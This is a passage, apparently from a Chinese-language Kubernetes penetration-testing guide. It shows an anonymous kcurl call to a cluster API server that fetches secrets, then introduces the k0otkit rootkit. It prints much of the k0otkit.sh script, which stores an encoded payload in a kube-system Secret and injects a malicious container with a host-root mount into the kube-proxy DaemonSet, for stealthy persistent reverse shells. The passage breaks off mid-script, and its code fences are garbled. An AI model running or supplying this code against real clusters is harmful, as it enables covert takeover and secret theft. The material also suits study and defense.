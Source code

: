 ```plain
./cdk kcurl anonymous get https://192.168.1.44:9443/api/v1/secrets
```

### Rootkit

这里介绍一个k8s的rootkit，k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透。使用 k0otkit，您可以以快速、隐蔽和连续的方式（反向 shell）操作目标 Kubernetes 集群中的所有节点。

K0otkit使用到的技术：

-   DaemonSet和Secret资源（快速持续反弹、资源分离）
-   kube-proxy镜像（就地取材）
-   动态容器注入（高隐蔽性）
-   Meterpreter（流量加密）
-   无文件攻击（高隐蔽性）  
    \`\`\`css  
    #生成k0otkit  
    ./pre\_exp.sh

# 监听

./handle\_multi\_reverse\_shell.sh

````plain
k0otkit.sh 的内容复制到 master 执行：
```css
volume_name=cache
mount_path=/var/kube-proxy-cache
ctr_name=kube-proxy-cache
binary_file=/usr/local/bin/kube-proxy-cache
payload_name=cache
secret_name=proxy-cache
secret_data_name=content

ctr_line_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ containers:/{print NR}')
volume_line_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ volumes:/{print NR}')
image=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep " image:" | awk '{print $2}')

# create payload secret
cat << EOF | kubectl --kubeconfig /root/.kube/config apply -f -
apiVersion: v1
kind: Secret
metadata:
  name: $secret_name
  namespace: kube-system
type: Opaque
data:
  $secret_data_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDA......

# inject malicious container into kube-proxy pod
kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \
  | sed "$volume_line_num a\ \ \ \ \ \ - name: $volume_name\n        hostPath:\n          path: /\n          type: Directory\n" \
````